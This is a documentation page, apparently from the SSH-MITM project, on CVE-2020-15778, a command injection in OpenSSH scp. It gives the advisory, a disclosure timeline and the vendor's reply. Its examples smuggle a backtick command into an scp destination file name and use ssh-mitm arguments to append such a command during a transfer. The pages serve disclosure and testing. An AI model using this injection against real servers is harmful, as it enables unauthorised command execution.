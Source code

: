 .. _cve-2020-15778:

===========================================
:fas:`check;sd-text-success` CVE-2020-15778
===========================================


.. card::

    :bdg-warning:`CVSS 7.8` CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
    ^^^
    scp in OpenSSH through 8.3p1 allows command injection in the scp.c toremote function,
    as demonstrated by backtick characters in the destination argument. NOTE: the vendor reportedly
    has stated that they intentionally omit validation of "anomalous argument transfers" because
    that could "stand a great chance of breaking existing workflows."
    +++
    **Affected Software:**

    * OpenSSH < 8.3

    :fas:`check;sd-text-success` integrated in SSH-MITM

Discloser information
=====================

* **Discovered by:** Chinmay Pandya
* **Email address:** cpandya2909@gmail.com
* **Linkedin:** https://www.linkedin.com/in/chinmay-pandya
* **Source:** https://github.com/cpandya2909/CVE-2020-15778

Timeline
--------

* Issue discovered - 9 Jun 2020
* CVE obtained - 16 Jul 2020
* Vendor notified - 9 Jun 2020
* Vendor acknowledgement received - 9 Jun 2020
* Public disclosure 18 Jul 2020


About SCP
---------

scp is a program for copying files between computers.
It uses the SSH protocol. It is included by default in most Linux and
Unix distributions.

Issue
-----

While coping files to remote server, file path is appended at end of local scp command. For example, if you execute following command

.. code-block:: bash

    scp SourceFile user@host:directory/TargetFile

it will execute a local command

.. code-block:: bash

    scp -t directory/TargetFile

At time of creating local scp command, it does not sanitize file name. An attacker can pass a backtick enabled payload as file name and when local scp command is executed, local shell will also execute backtick enabled payload.

Example
-------

Execute following command with scp

.. code-block:: bash

    scp  /sourcefile remoteserver:'`touch /tmp/exploit.sh`/targetfile'

After executing this command, go to remote server and you will see in /tmp/ directory that file exploit.sh is present. Putting single quotes in file name is important to prevent payload execution on local shell or using escape character like single quotes in file name can prevent payload execution on local shell


Openssh reply
-------------

.. note::

    The scp command is a historical protocol (called rcp) which relies upon that style of argument passing and encounters expansion problems. It has proven very difficult to add "security" to the scp model. All attempts to "detect" and "prevent" anomalous argument transfers stand a great chance of breaking existing workflows. Yes, we recognize it the situation sucks. But we don't want to break the easy patterns people use scp for, until there is a commonplace replacement. People should use rsync or something else instead if they are concerned.


Test with SSH-MITM
==================

A proof of concept exploit is integrated in ssh-mitm.

The man in the middle server is able to modify the sent command.
This allows to execute arbitrary commands as the user on the remote server without the need to open a shell.

To inject additional commands during a file transfer from the client to the server you have to start
ssh-mitm with following arguments:

.. code-block:: bash

    $ ssh-mitm server --scp-interface replace-command \
        --scp-append-string '`touch /home/testuser/exploit.sh`'

On the client side, the scp file transfer is started with following command:

.. code-block:: bash

    scp -P 10022  /bin/bash testuser@localhost:'/tmp/target'


References
==========

* https://nvd.nist.gov/vuln/detail/CVE-2020-15778
* Code for SCP - https://github.com/openssh/openssh-portable/blob/master/scp.c
